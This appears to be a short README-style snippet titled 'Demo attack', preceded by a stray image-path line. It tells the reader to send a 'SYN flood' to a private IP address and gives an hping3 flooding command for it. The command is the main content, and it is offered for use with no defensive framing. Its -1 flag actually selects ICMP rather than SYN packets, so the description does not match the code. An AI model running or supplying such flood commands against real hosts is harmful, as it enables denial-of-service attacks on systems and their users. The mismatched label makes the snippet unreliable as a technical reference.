 # Demo attack

Send SYN flood attacks to IP: 192.168.43.110

```
sudo hping3 -V -1 -c 50 -d 400 --fast 192.168.43.110
```

#
